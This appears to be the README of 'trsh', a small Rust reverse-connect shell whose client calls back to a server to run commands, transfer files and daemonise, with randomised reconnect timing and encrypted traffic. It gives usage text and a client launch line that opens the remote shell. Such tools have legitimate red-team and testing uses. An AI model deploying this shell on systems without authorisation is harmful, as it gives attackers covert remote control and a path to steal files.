 # TRSH - tiny rust shell

trsh is a tiny backconnect shell written in rust. It should run under linux and MacOS. To get a static binary compile it with the rust musl target. 

trsh has the following components:

* trsh-server is the server component, sending commands to the backconnect client
* trsh-client is the client component, connecting back to the server and executing the commands sent by the server
* cryptolib is the crypto layer for the tiny rust shell. Currently there trsh can use Salsa20 or AES28. 

## trsh-server

The tiny rust shell server can be started with the following options:

``` shell
Server 1.0
asisdrico <asisdrico@outlook.com>
tiny rust shell server

USAGE:
    trsh-server [FLAGS] [OPTIONS] [COMMAND] [SUBCOMMAND]

FLAGS:
    -h, --help               Prints help information
    -r, --redirect_stderr    redirects stderr
    -V, --version            Prints version information

OPTIONS:
    -s, --server_addr <ADDRESS>    Sets the server address to listen to. [default: 127.0.0.1:4444]

ARGS:
    <COMMAND>    command to execute [default: w]

SUBCOMMANDS:
    get      
    help     Prints this message or the help of the given subcommand(s)
    put      
    shell    
```

## trsh-client

This is the backconnect client of the tiny rust shell. It can be started with the following options:

``` 
TRSH_NOLOOP=1 TRSH_DAEMON=1 ./trsh-client <backconnect ip:port>
```

* normal start mode is in foreground sleeping a random time in seconds as specified in the clients source SLEEP_MIN > SLEEPTIME < SLEEP_MAX between backconnect attempts.
* TRSH_NOLOOP=1 starts the client with no loop making exactly one backconnect attempt.
* TRSH_DAEMON=1 sends the client into background.

## License

Licensed under 

* MIT license (see LICENSE or http://opensource.org/licenses/MIT)

## Contribution

Unless you explicitly state otherwise, any contribution intentionally submitted for inclusion in the work by you shall be dual licensed as above, without any additional terms or conditions.